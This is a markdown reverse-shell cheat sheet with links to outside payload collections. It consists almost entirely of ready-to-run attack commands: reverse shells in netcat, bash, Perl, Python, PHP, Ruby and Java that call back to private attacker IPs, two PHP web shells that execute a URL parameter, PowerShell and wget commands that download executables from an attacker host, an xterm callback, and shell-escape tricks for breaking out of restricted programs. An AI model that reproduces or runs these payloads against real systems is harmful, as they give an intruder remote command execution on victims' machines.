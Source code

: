 https://highon.coffee/blog/reverse-shell-cheat-sheet/

# netcat
```nc -e /bin/sh 10.11.0.130 443```

# Simple bash revshell
```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

# Bash FIFO
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

# Perl
```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PHP
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

# Ruby
```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```

# PHP WebShell 
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

# JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```

# Powershell
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

# xterm
"One of the simplest forms of reverse shell is an xterm session. 
The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001:

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 

One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

# Shell Escape; from Shellcatraz
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')
(From within IRB)

exec "/bin/sh"
(From within vi)

:!bash
(From within vi)

:set shell=/bin/bash:shell
(From within nmap)

!sh
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
